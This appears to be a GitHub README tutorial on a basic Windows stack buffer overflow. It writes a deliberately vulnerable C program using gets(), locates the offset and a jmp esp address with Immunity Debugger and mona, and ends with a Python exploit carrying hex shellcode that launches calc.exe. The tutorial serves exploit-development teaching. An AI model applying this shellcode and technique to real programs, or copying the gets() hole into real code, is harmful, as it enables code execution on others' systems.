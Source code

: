 # Basic bufferover

Required software

- python 2.7.x
- Immunity debugger - https://www.immunityinc.com/products/debugger/
- MinGW (gcc) - https://sourceforge.net/projects/mingw-w64/files/Toolchains%20targetting%20Win32/Automated%20Builds/


# Write a program

Write code

```
#include <stdio.h>

int main() {
char str[50];

printf("Enter your name");
gets(str);
printf("Hello %s\n", str);

return 0;
}
```

Compile

```
gcc -m32 overflow.c -o overflow.exe
```

# Load Debugger

Locate immunity folder and drop mona in the extensions folder

set gcc as a system path c:\mingw\bin\

Load Immunity and use the folder or file to open and then locate overflow.exe
at the bottom of the screen set a working directory.
```
!mona config -set workingfolder c:\mona\%p
```

open pattern.txt and copy and paste the pattern into your exe
```
!mona pc 100
```

use this as a pattern offset to workout how many junk bites are required in our case 62 bytes are junk
```
!mona po 31634130
```

look for a esp jump command to workout where your payload would be

```
!mona jmp -r esp -m kernel
```

```
Log data, item 24
 Address=76C9FB75
 Message=  0x76c9fb75 (b+0x0013fb75)  : jmp esp |  {PAGE_EXECUTE_READ} [KERNELBASE.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v10.0.17763.1 (C:\WINDOWS\System32\KERNELBASE.dll)
```

# Write the expoilt

- Use python

- 2nd line - 62 junk bytes
- 3rd line - esp jump address input it backwards
- 4th line - exec calc.exe in hex

- 5/6 opens payload


```
from subprocess import Popen, PIPE
payload = b"\xc4"*62
payload += b"\x75\xFB\xC9\x76"
payload += (b"\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
b"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7"
b"\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
b"\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a"
b"\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
b"\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7")

p = Popen(["overflow.exe"], stdout=PIPE, stdin=PIPE)
p.communicate(payload)
```

